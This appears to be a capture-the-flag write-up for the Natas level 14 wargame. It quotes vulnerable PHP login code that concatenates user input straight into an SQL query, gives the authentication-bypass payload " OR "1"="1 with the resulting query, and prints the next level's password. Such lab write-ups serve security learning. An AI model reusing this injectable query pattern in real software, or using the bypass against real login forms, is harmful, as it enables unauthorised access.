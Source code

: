 # Writeup level 14
We have a login form as the start page with the input fields username and password.

**Source Code**

```
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>
```

This looks like a simple **SQL-Injection**. We can see that the query is getting concatenated with our input. So we can easily inject our own SQL statement since there is nothing protecting it. Also we have a debug option which we can use to see how our query looks like.

**Exploit**  
In this case we can simply use **natas15** as the **username** and our password is going to be the injection point.  
By using: **" OR "1"="1** as the **password** we can turn the condition to true without knowing the password.  
Query that gets executed:  
```sql
SELECT * from users where username="natas15" and password="" OR "1"="1"
```

The password is:  
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

